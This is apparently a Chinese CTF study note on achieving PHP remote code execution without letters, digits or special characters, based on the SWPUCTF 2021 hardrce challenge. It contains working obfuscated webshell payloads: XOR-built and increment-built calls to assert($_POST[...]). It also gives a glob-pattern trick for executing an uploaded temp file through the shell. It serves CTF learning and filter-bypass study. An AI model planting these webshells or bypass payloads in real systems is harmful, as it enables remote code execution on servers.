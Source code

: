 # 不包含数字or字母or特殊字符的RCE


&gt; 参考题目：[SWPUCTF 2021 新生赛]hardrce
&gt; 
&gt; 参考文章：
&gt; [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
&gt;[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

## 绕过思路
### 法一  利用异或绕过
```
(&#39;%01&#39;^&#39;`&#39;).(&#39;%13&#39;^&#39;`&#39;).(&#39;%13&#39;^&#39;`&#39;).(&#39;%05&#39;^&#39;`&#39;).(&#39;%12&#39;^&#39;`&#39;).(&#39;%14&#39;^&#39;`&#39;)  //&#39;assert&#39;
&#39;_&#39;.(&#39;%0D&#39;^&#39;]&#39;).(&#39;%2F&#39;^&#39;`&#39;).(&#39;%0E&#39;^&#39;]&#39;).(&#39;%09&#39;^&#39;]&#39;)  //&#39;_POST&#39;

(&#39;%01&#39;^&#39;`&#39;).(&#39;%13&#39;^&#39;`&#39;).(&#39;%13&#39;^&#39;`&#39;).(&#39;%05&#39;^&#39;`&#39;).(&#39;%12&#39;^&#39;`&#39;).(&#39;%14&#39;^&#39;`&#39;)($&#39;_&#39;.(&#39;%0D&#39;^&#39;]&#39;).(&#39;%2F&#39;^&#39;`&#39;).(&#39;%0E&#39;^&#39;]&#39;).(&#39;%09&#39;^&#39;]&#39;)[&#39;in&#39;])   //&#39;assert($_POST[&#39;in&#39;])&#39;
```
通过本方法可以绕过对于字母的限制

### 法二  利用取反进行绕过
利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如```&#39;```和```{2}```的结果是```\x8c```，其取反即为字母```s```

### 法三  无法使用位运算时
由于```&#39;a&#39;&#43;&#43; =&gt; &#39;b&#39;```，```&#39;b&#39;&#43;&#43; =&gt; &#39;c&#39;```……
通过该特性，可以得到只要能拿到一个变量，其值为a，**通过自增操作即可获得a-z中所有字符**。
而**Array**既有A又有a，因此可以通过其得到A-Z和a-z。
与此同时，在PHP中，**如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array**。
之后进行对Array的截取，可得a或A。


## 常用shell
```
&lt;?php
$_=[];
$_=@&#34;$_&#34;; // $_=&#39;Array&#39;;
$_=$_[&#39;!&#39;==&#39;@&#39;]; // $_=$_[0];
$___=$_; // A
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;; // E 
$___.=$__;
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;; // R
$___.=$__;
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;; // T
$___.=$__;

$____=&#39;_&#39;;
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;; // P
$____.=$__;
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;; // O
$____.=$__;
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;; // S
$____.=$__;
$__=$_;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

## 无字母、数字、$
1. 知识点：
（1）shell下可以利用```.```来执行任意脚本
例：
当前运行的shell是bash，则```. file```的意思就是用bash执行file文件中的命令。
（2）Linux文件名支持用glob通配符代替

2. 针对（1）
如果目标服务器上有一个我们可控的文件，就可以利用```.```来执行它了。
得到文件方法：可以发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是```/tmp/phpXXXXXX```，文件名最后6个字符是随机的大小写字母

3. 针对（2）
Linux下的glob通配符：
```*```可以代替0个及以上任意字符
```?```可以代表1个任意字符

```/tmp/phpXXXXXX```就可以表示为```/*/?????????```或```/???/?????????```

而glob支持用[^x]的方法来构造 **“这个位置不是字符x”**
可以用这个姿势干掉/bin/run-parts
```
 /???/???[^-]?????	//排除第四位为’-’的文件
  /???/???[^-][^.][^.][^.][^.]?[^.]?	//排除含’.’的文件
```

glob支持利用```[0-9]```来表示一个范围
找到一个可以表示“大写字母”的glob通配符，就能精准找到我们要执行的文件
ASCII码表中，大写字母位于```@```与```[```之间
可以利用```[@-[]```来表示大写字母

## 构造POC
php生成临时文件名是随机的，最后一个字符不一定是大写字母，要多尝试几次

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-%E4%B8%8D%E5%8C%85%E5%90%AB%E6%95%B0%E5%AD%97or%E5%AD%97%E6%AF%8Dor%E7%89%B9%E6%AE%8A%E5%AD%97%E7%AC%A6%E7%9A%84rce/  

